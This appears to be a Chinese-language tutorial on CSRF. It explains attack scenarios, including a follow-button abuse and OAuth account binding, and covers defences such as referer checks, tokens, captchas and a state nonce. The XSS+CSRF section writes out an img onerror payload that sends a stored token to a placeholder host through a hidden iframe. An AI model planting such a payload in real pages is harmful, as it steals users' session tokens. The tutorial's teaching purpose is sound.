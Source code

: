 ## 简单易懂的了解 CSRF

### CSRF 攻击是什么

`CSRF`也被称为`XSRF`，是跨站请求伪造的缩写，是利用用户缓存的登录态，请求自动带上 cookie 骗取服务端信任，执行非本意的操作的攻击方法。
因为服务器只认请求携带过来的 cookie 信息，只能保证请求来自缓存有用户信息的浏览器，而不知道是不是用户自愿发生的请求。
与`XSS`相比，`XSS`利用了用户对网站的信任，，`CSRF`利用的是网站对用户网页浏览器的信任。份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

### 先举个栗子🌰

假设某博有一个关注接口，可以让登录用户关注某个账号；设想一个情景是该接口有 CSRF 漏洞可以被黑客利用刷关注数。黑客应该如何利用该漏洞？

- 写个xx网站，搞个隐藏 img 标签，src 为上述关注接口
- 用户浏览这个网页的时候，会请求上述接口，如果用户登录过头条，这时候登录态就带过去了，关注成功
- 进阶：使用 form 代替 img，在 window.onload submit form，可以改GET为POST攻击

### 怎么防御
首先得知道它怎么进行攻击，以及攻击的目标

- 用户必须已经在目标网站登录，然后携带用户的cookie欺骗服务器
- 黑客并不能拿到 cookie，且看不到 cookie 的内容。由于浏览器同源策略的限制，也无法解析服务返回的内容。所以我们要保护的对象是写服务，而对于读服务则不需要进行CSRF的保护
- 保护的关键，是 在请求中放入黑客所不能伪造的信息

#### 低端操作
敏感操作用POST代替GET，这个在上面已经说了，没多大用处

#### 常规操作 

##### 限制请求来源 Referer
方法：HTTP Header 里有一个 referer 字段表示请求的来源，服务器可验证这个 referer 并拒绝访问
优点：简单易实现
缺点：严重依赖浏览器实现，上古浏览器referer可被修改，新策略可以允许不带 referer

##### 添加 token 验证
方法：
1. 用户在登录的时候服务器产生 token 返回给前端
2. 前端发请求的时候，将 token 放到请求url里或者请求头中带给服务器。
3. 服务器验证 token，由于黑客无法登录得到或者伪造 token，所以能防范 CSRF
缺点：
并不绝对安全：
1. 配合其他攻击方式如XSS和JSONP获取到token，再将token待到url参数；
    a. 将 token 放到 请求 header 里可避免这个问题，毕竟 img script form 等标签发出的请求无法自定义请求 header
2. 存在更极端的情况
    a. abc.com 下有两个服务，通过 nginx 之类分流到 abc.com/a 和 abc.com/b
    b. 当 a 存在隐患被攻击成功后，a 可以修改 abc.com 的 token 信息，且 a 请求到 abc.com 下其他的服务都不存在跨域问题，从而导致一个服务沦陷，同域下其他服务也造成危险

#### 简单粗暴的操作
方法：添加验证码来验证这个操作是不是用户主动发起的
优点：简单粗暴，相当可靠
缺点：对用户不友好

### OAuth CSRF 攻击

#### 举个栗子🌰：
用户平台（比如某交友平台）；认证服务器（比如github）

1. 正常流程
  1. 老李登录某交友平台，没关联 github，交友平台 跳转到 github
  2. 老李在 github 登录，github 获取用户授权
  3. github 生成老李在 github 平台唯一对应的 code 回调 交友平台 的地址
  4. 交友平台 将 code 与老李在自己平台的账号关联
问题在于 github 授权完成跳回 交友平台 的带有 code 的重定向 URI 对于 交友平台 服务器来说是无状态的，该 code 标识的只是老李在 github 平台的唯一性

2. 张三的攻击流程
  1. 张三在 1.c 步奏带上 code 的时候没有真正执行 1.d，比如断网或者恶意存储起来
  2. 这时候老李在 交友平台 已登录但是未绑定 github，张三将自己的 code 发给老李，导致老李的号绑定了张三的 github 账号，张三就可以用自己的 github 账号登录老李的 交友平台
  3. 那么，张三怎么将 code 发给老李的呢，这时候假设老李访问了张三写的某某相亲平台，里面有一个 img 标签，src 为 交友平台的回调地址并带上张三准备好的 code，因为老李在 交友平台 已经登录且未绑定 github，这时候就相当于把张三的 github 绑定到了老李在 交友平台 的号。完成了一次 CSRF 攻击
  
##### 防御办法: 随机数校验
上述攻击的关键就在于 交友平台 无法判断由 github 重定向回的URI是否是当前登录用户老李所发起的授权。可以通过随机数 R 来判断 code 是否合法

1. 交友平台 在跳转 github 的时候往用户 session 写一个随机数 R，并传给 github
2. github 回调 交友平台 的时候将 code 和 R 一起带给 交友平台
3. 交友平台 将 github 传过来的 R 和 老李 session 里的 R 校验，通过就证明 code 有效

<b>由上可知对利用OAuth进行CSRF攻击的条件是很苛刻的：</b>攻击者必须了解目标网站的<b>绑定特性</b>，比如一个账号只能绑定一个 OAuth，攻击者只能定向攻击没有绑定 OAuth 的号，并且攻击一次后需要解绑才能攻击下一个。无法快速大范围撒网攻击

### XSS+CSRF 配合
> 存储型 XSS + CSRF

```
<img
	width="0"
	height="0"
	src="xx"
	onerror="javascript:var i=document.createElement('iframe');i.width=0;i.height=0;i.frameBorder=null;i.src=`http://xx/csrf.html?token=${localStorage.getItem('token')}`;document.body.appendChild(i)"
/>
```

1. 插一个隐藏的 img 标签，src 乱设置一个请求不通的，必然执行 onerror
2. onerror 里创建一个隐藏的 iframe，指向 scrf 页面，并带上当前获取到的 token 或 cookie

### 总结
**CSRF攻击利用的是服务器无法分辨请求是不是用户本人发起的，所以防范的关键在于在请求中放入黑客所不能伪造的信息。从而防止黑客伪造一个完整的请求欺骗服务器**